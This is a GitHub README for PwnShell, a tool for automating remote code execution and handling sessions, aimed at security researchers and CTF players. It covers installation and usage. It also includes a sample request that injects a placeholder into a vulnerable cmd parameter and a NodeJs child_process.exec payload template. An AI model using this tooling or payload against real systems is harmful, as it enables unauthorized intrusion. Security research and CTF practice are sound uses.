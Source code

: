 

# PwnShell

**PwnShell** is a powerfull RCE exploitation Automator and a Session handler tool designed for Security Researchers and CTF players.
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#getting-started">Installation</a>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>
</details>

## Installation

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   pip install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   cd PwnShell/
   chmod +x pwnshell.py
   ```



<!-- USAGE EXAMPLES -->
## Usage
### Recommended Method 👇
```sh
   ./pwnshell.py -H [HOST IP] -f [REQUEST FILE]
```
#### Request File Example:
###### Put 'PWNME' in the vulnerable place.
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### OR
##### Note: Cookie and headers must be in JSON format (if provided).
```sh
./pwnshell.py -H [HOST-IP] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIE (optional)] -k [HEADERS (optional)]
   ```
   ```sh
   ./pwnshell.py -H <HOST-IP> -u http/s://<TARGET>/Vulnerable.php?cmd=PWNME -m get 
   ```

### For NodeJs Payloads 
###### To use only NodeJs payload -> require('child_process').exec('PWNME')
```shell
  ./pwnshell.py -H [HOST-IP] -n   
```

### Use Help for full usage details
```sh
   ./pwnshell.py -h
   ```

# Preview
## Using [Request File]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/req.gif)

## Using [URL]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url.gif)
   


## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-yahya-0985971b5/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/)

**Project Link**: [https://github.com/zAbuQasem/PwnShell](https://github.com/zAbuQasem/PwnShell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)




[license-url]: https://github.com/zAbuQasem/PwnShell/blob/master/LICENSE.txt
[product-screenshot]: images/screenshot.png
